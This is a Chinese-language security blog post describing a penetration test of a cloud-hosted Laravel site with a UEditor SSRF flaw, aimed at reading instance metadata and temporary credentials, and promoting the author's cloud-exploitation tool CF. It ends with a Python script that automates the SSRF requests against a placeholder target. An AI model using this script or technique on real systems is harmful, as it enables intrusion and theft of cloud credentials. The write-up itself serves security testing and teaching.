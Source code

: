 ```yaml
---
title: 我用 CF 打穿了他的云上内网
date: 2022-07-13 19:22:51
id: 220713-192251
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202207131933165.png
tags:
- 云安全
- 安全工具
- 案例
categories:
- 云安全
---
```


## 0x00 前言

最近在做项目的时候，测到了一个部署在云上的存在 Laravel UEditor SSRF 漏洞的站点，并且发现这个 SSRF 漏洞可以读取到临时凭证，这不巧了，正好最近写了一个云环境利用的工具。

开始之前这里先简单介绍一下这个工具，CF 是这个工具的名字，通过它可以很方便的进行云上内网渗透，比如一键在所有实例上执行命令、一键接管控制台、一键列出云服务资源等等。

项目地址：[https://github.com/teamssix/cf](https://github.com/teamssix/cf)

使用手册：[https://wiki.teamssix.com/cf](https://wiki.teamssix.com/cf)

十分建议在使用 CF 的时候，边使用边参考 CF 的使用手册，发现 CF 更多功能，那话不多说，下面咱们就开始吧。

## 0x01 打点，但，是云环境

一开始还是信息收集，首先通过指纹扫描发现在目标范围内的一个站点使用了 Laravel 框架，接着测试发现该站点存在 Laravel UEditor SSRF 漏洞。

这里的 SSRF 漏洞触发点在 UEditor 编辑器的上传图片功能中，下面我们尝试让服务器从 https://baidu.com?.jpg 获取图片。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202207131930443.png)

然后我们读取返回的文件地址，通过返回的内容可以看到服务端确实访问到了 https://baidu.com?.jpg，说明这里确实存在 SSRF 漏洞。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202207131931262.png) 通过查询该域名所属 IP，发现该站点位于云上，那么我们就可以利用这个 SSRF 漏洞去获取实例的元数据信息，但是这样每次获取数据都要手动发两个数据包就很麻烦，所以这里简单搞个脚本。

```python
  import sys
  import requests
  
  ssrf_url = sys.argv[1]
  headers = {"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.3100.0 Safari/537.36"}
  
  req1 = requests.get("https://your_target.com/laravel-u-editor-server/server?action=catchimage&source[]=" + ssrf_url,headers=headers)
  req2 = requests.get(req1.json()["list"][0]["url"],headers=headers)
  
  print(req2.text)
```
